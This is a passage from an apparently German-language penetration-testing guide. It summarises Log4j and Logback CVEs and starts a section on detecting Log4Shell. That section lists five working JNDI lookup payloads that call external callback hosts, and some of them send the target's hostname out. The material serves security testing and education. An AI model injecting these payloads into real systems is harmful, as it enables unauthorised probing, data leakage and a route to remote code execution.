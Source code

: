 Ursprünglich als niedrig eingestuft, aber später auf kritisch hochgestuft, ist dieser CVE ein **Denial of Service (DoS)**-Fehler, der aus einem unvollständigen Fix in 2.15.0 für CVE-2021-44228 resultiert. Er betrifft nicht standardmäßige Konfigurationen und ermöglicht es Angreifern, DoS-Angriffe durch gestaltete Payloads zu verursachen. Ein [Tweet](https://twitter.com/marcioalm/status/1471740771581652995) zeigt eine Umgehungsmethode. Das Problem wurde in den Versionen 2.16.0 und 2.12.2 behoben, indem die Nachrichten-Lookup-Muster entfernt und JNDI standardmäßig deaktiviert wurden.

### [CVE-2021-4104](https://nvd.nist.gov/vuln/detail/CVE-2021-4104) **\[Hoch]**

Betroffen sind **Log4j 1.x-Versionen** in nicht standardmäßigen Konfigurationen, die `JMSAppender` verwenden. Dieser CVE ist ein untrusted deserialization flaw. Es gibt keinen Fix für den 1.x-Zweig, der das Ende seiner Lebensdauer erreicht hat, und ein Upgrade auf `log4j-core 2.17.0` wird empfohlen.

### [CVE-2021-42550](https://nvd.nist.gov/vuln/detail/CVE-2021-42550) **\[Moderat]**

Diese Schwachstelle betrifft das **Logback-Protokollierungsframework**, einen Nachfolger von Log4j 1.x. Zuvor als sicher angesehen, wurde das Framework als anfällig befunden, und neuere Versionen (1.3.0-alpha11 und 1.2.9) wurden veröffentlicht, um das Problem zu beheben.

### **CVE-2021-45105** **\[Hoch]**

Log4j 2.16.0 enthält einen DoS-Fehler, was zur Veröffentlichung von `log4j 2.17.0` zur Behebung des CVE führte. Weitere Details finden Sie im Bericht von BleepingComputer [hier](https://www.bleepingcomputer.com/news/security/upgraded-to-log4j-216-surprise-theres-a-217-fixing-dos/).

### [CVE-2021-44832](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/)

Diese Schwachstelle betrifft log4j Version 2.17 und erfordert, dass der Angreifer die Konfigurationsdatei von log4j kontrolliert. Sie beinhaltet potenzielle beliebige Codeausführung über einen konfigurierten JDBCAppender. Weitere Details sind im [Checkmarx-Blogbeitrag](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/) verfügbar.

## Log4Shell-Ausnutzung

### Entdeckung

Diese Schwachstelle ist sehr einfach zu entdecken, wenn sie ungeschützt ist, da sie mindestens eine **DNS-Anfrage** an die Adresse sendet, die Sie in Ihrer Payload angeben. Daher Payloads wie:

* `${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}` (unter Verwendung von [canarytokens.com](https://canarytokens.org/generate))
* `${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}` (unter Verwendung von [interactsh](https://github.com/projectdiscovery/interactsh))
* `${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}` (unter Verwendung von Burp Suite)
* `${jndi:ldap://2j4ayo.dnslog.cn}` (unter Verwendung von [dnslog](http://dnslog.cn))
* `${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}` (unter Verwendung von [huntress](https://log4shell.huntress.com))
